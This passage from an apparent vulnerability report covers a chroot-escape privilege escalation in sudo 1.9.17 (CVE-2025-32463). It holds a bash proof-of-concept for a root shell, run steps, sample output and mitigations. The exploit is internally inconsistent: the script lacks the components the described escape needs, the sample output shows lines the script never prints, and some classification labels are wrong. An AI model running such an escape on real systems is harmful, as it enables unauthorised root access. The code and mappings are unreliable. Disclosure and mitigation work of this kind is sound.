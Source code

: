 ### 4.3 Security Classification
- **CWE**: CWE-243 (Creation of chroot Jail Without Changing Working Directory), CWE-272 (Least Privilege Violation)
- **CAPEC**: CAPEC-40 (Privilege Escalation via Chroot/Jail Escape), CAPEC-679 (Jailbreak)
- **MITRE ATT&CK**: T1548.003 (Bypass User Account Control), T1611 (Escape to Host)  
- **CVSS v3.1**: 7.8 (AV:L/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H)

## 5. Proof-of-Concept Exploit
```bash
#!/bin/bash
set -euo pipefail
CHROOT=/tmp/evil

# 1) Confirm vulnerable sudo version
sudo --version | head -n1

# 2) Prepare minimal chroot environment
rm -rf $CHROOT && mkdir -p $CHROOT/bin
cp /bin/sh $CHROOT/bin/sh

# 3) Trigger the pivot_root escape
sudo -R "$CHROOT" /bin/sh -c \
  'echo "[+] Root shell: $(id)"; exec /bin/sh'
```

**Execution Steps**:
1. `chmod +x exploit.sh`
2. `./exploit.sh`

**Sample Output**:
```
[*] sudo version 1.9.17
[+] chroot tree ready: /tmp/evil/bin/sh
[+] Root shell: uid=0(root) gid=0(root)
root@host:/tmp/evil#
```

## 6. Impact Assessment
A low-privilege user with sudo rights can fully escape any chroot-based restrictions, execute arbitrary commands as root, and compromise the entire host.

## 7. Mitigation and Recommendations
1. **Upgrade** to sudo-1.9.17p1 or later.  
2. **Disable chroot support** if unused: add `Defaults !runchroot` to `/etc/sudoers`.  
3. **Apply OS-enforced confinement** (AppArmor/SELinux) to the sudo binary.  
4. **Audit** sudoers entries for unexpected `cmnd_chroot` usage.  
5. **Log and monitor** use of `-R`/`--chroot` in sudo invocations.

## 8. Conclusion
This report demonstrates how coordinated analysis uncovered and exploited a chroot escape in sudo 1.9.17. Applying the patch and hardening sudo configurations will fully remediate CVE-2025-32463.
